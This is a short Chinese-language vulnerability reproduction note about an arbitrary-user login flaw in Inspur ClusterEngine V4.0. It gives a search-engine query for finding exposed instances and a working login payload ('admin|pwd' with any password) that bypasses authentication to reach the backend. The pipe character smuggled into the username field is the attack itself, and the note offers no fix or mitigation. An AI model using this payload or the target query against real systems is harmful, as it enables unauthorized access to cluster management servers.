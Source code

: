 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](images/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](images/202202091850228.png)